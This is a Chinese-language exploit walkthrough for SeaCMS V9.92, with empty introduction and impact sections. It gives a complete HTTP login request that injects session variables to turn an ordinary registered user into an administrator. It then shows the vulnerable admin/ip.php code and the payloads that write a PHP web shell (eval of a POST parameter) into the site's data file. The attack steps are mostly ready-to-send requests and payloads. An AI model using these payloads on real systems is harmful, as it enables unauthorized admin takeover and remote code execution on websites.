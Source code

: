 Seacms V9.92 越权+Getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 越权

#### 1、首先注册一个普通用户

#### 2、burp抓包改包，下面是发送payload

    POST /login.php HTTP/1.1
    Host: 0-sec.org
    Content-Length: 49
    Cache-Control: max-age=0
    Origin: http://192.168.8.143
    Upgrade-Insecure-Requests: 1
    DNT: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Referer: http://192.168.8.143/login.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=9smu8an6nvbrqasp5m0o4bmts7
    Connection: close

    dopost=login&userid=test&pwd=123456&validate=djyf&_SESSION[sea_admin_id]=1&_SESSION[sea_ckstr]=djyf

#### 3、 登陆后台页面，可以发现管理员账户变成-1了,也同时拥有管理员的权限

### getshell

/admin/ip.php

    if($action=="set")
    {
        $v= $_POST['v'];
        $ip = $_POST['ip'];
        $open=fopen("../data/admin/ip.php","w" );
        $str='<?php ';
        $str.='$v = "';
        $str.="$v";
        $str.='"; ';
        $str.='$ip = "';
        $str.="$ip";
        $str.='"; ';
        $str.=" ?>";
        fwrite($open,$str);
        fclose($open);
        ShowMsg("成功保存设置!","admin_ip.php");
        exit;

我们再去看一下ip.php格式

    <?php $v = "0"; $ip = " ";  ?>

我们可以构造一下,然后保存

    *;phpinfo();//
    ";@eval($_POST[pp]);//

image
